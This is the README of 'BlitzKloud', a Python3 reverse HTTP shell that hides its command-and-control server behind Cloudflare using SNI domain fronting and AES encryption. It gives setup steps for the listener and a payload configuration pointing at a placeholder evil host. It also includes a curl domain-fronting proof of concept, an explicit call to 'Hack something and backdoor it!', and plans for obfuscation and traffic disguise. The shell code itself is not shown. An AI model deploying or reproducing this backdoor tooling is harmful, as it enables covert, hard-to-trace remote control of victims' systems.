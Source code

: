 # BlitzKloud
==================

<p> A Cloudflare compatible, SNI/domain fronting compliant Reverse HTTP Shell with built in 
AES encryption. Written in Python3, with dependencies minimized.  </p>
<br>

<p><i> Darkerego 2019 ~ xelectron@protonmail.com ~ https://github.com/darkerego</i></p>


#### Concept



<p>Blitzkloud is a Cloudflare compatible reverse HTTP shell, with SNI 
domain fronting functionality. Because this shell does not yet support HTTPS, 
(and even if it did, remember, Cloudflare is giant MITM honeypot), the shell 
also has built in support for AES encryption (no external libaries needed for payload
because I imported functionality from pyaes directly into the paylaod!). 
The goal was to create a pure python3- powered reverse shell with miminal, (eventually no) 
outside dependencies (for portability), which allows the user to conceal the location of his or her
server (where we catch the shell), by both proxying through cloudflare, and hiding DNS 
requests to the destination server employing domain fronting tactics via SNI (server
name indication).
</p>

<p>
This functionality allows an attacker to hide their c&c server's ip and (to some extent) 
 domain, proxying commands and output through Cloudflare's global CDN, thus not revealing 
the IP address of your server. The shell also provides some obfuscation 
by exploiting Cloudflare's SNI bug/|feature domain fronting capabilities -- 
anyone monitoring DNS requests alone will not see the actual URL of your server:
</p>


<p><b>SNI Proof of Concept:</b></p>
<pre>
 $ curl -H "Host: your.remote.host" http://upwork.com
</pre>
<p>
For more details on SNI and domain fronting, see:
https://en.wikipedia.org/wiki/Domain_fronting
</p>
[![domain-front.png](https://i.postimg.cc/br233qtp/domain-front.png)](https://postimg.cc/V0mqNQgV)
 
#### Usage

Requirements:

- VPS Server
- Cloudflare account
- Domain name (set up to use Cloudflare's CDN.)
- Human with an intelligence quota at least 120

<b>Setup & Configuration: </b>

<p>First, you will need an HTTP server that is on Cloudflare's network. Purchase a cheap VPS, we 
do not need anything fancy to run this. You can get one from Digital Ocean for $5 per month. Next, 
you will need a free account with Cloudflare. Finally, you need a domain name. </p>

<p>
Configure your DNS to use Cloudflare's network. Next, install the listener on your server:

<pre>
$ git clone https://github.com/darkerego/blitzcloud
$ cd blitzcloud
$ pip3 install --user -r requirements.txt
</pre>

<p>
Test to make sure that the listener runs and has been installed correctly:
</p>

<pre>
$ python3 ./srv.py
Starting httpd on ('0.0.0.0', 8880):8880...
</pre>

<p>Note: Cloudflare can proxy HTTP traffic on several different ports including 80, 8080, and 8800.</p>

<p>
Next, configure the server and payload. First, choose a key to encrypt all traffic with using the
built in AES libary. Key length must be a multiple of 16, and the key must be in byte format. 
Edit this line and choose a secure key:
</p>

<pre>
key = b"This_key_for_demo_purposes_only!"
</pre>

<p>This is the only thing that needs to be set in the server.py, however in the payload.py file, the 
following variables must be set:</p>

<pre>
debug = False  # Display errors and output (for debugging)
front_url = 'your.evil.host'  # your c&c server: example: developer.attacker.com
url = 'http://mediafire.com:8880'  # example: http://upwork.com:8880 - (include port of listener if not port 80 (http)
key = b"This_key_for_demo_purposes_only!"  # AES Encryption key - keep private, must be in byte form.
</pre>

<p>
Now, the rest is up to you. Hack something and backdoor it! Because this is Python, it is 
virtually platform agnostic -- in other words, if the target system can run Python3, it can 
run this payload as well.
</p>

TODO: 

- Figure out, is domain fronting over HTTPS still possible? If yes, implement
- Consider sending output back as a cookie with a get request instead a post
- Better discussing of payloads - (make traffic look as innocuous as possible)
- Implement command history in shell , OR
- Implement a full PTY over HTTP shell
- Options for packing, obfuscation, compilation
- More details in the README about how this all works
- Port backwards so payload is Python2 compatible
- Eliminate dependencies (like requests), rewrite using raw sockets
  
